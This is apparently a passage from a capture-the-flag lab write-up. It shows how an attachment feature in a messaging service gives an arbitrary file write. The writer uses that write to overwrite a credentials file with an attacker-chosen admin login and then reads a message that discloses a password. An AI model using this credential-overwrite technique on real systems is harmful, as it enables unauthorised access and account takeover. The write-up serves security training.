 It seems that `code.txt` is read and this is the username and password checked, and within the `terminal` function, there's also a check for whether the username is called `admin`. Lastly, the username and password are stored within `/opt/depreciated/code.txt`.

The `create_message` function gives us an arbitrary write using the attachment function. We can overwrite the original `code.txt` with a new one as the `admin` user:

```bash
echo 'admin:password' > /tmp/code.txt

## on port 5132
$ create
for: admin
Description: lol
File: /tmp/code.txt

peter@depreciated:/opt/depreciated$ cat code.txt 
admin:password
```

This would allow us to read message 0:

{% code overflow="wrap" %}
```
$ read 0
Message No: #0

Hey, Seriously this is getting out of hand. Your new password is 9>XsS+&=Zn#AS9-@ Please don't forget your password this time. And make sure to change this once you are in.

Attachment: none
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2776).png" alt=""><figcaption></figcaption></figure>
